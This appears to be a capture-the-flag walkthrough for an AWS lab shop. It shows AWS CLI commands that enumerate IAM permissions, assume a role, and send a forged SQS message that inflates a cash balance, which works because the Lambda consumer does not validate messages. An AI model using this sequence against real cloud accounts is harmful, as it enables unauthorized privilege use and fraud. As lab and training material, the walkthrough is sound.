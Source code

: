   
1. The attacker accesses the web page and identifies the features first

    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.  
  
---

2. The attacker checks the privileges it has
    ```bash
    # Configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
   
    # Get the ARN & full name of user.
    aws --profile [profile_name] sts get-caller-identity
   
    # List policies attached to user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
   
    # View permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [policy_name]
    
   # View inline policies granted to role.
    aws --profile [profile_name] iam list-role-policies --role-name [role_name]
    
   # View permissions granted to inline policies.
    aws --profile [profile_name] iam get-role-policy --role-name [role_name] --policy-name [policy_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
   
---  

3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >  
  -When charging the cash, a message is sent to the SQS service.  
  -The lambda function does not verify the received message.  
  -The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  
---  

4. Assume the the sending message role about SQS service
    ```bash
    # Get credentials for the role about sending messages to SQS queue.
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    
   # Configure AWS profile.
    aws configure --profile [assumed_profile_name]
    
   # Set the session token to ~/.aws/credentials.
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```  
  
---  
  
5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue  
    ```bash
    # Get queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    
   # Send a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```  
  
---  
  
6. Check the changed assets, purchase FLAG and check the secret-string
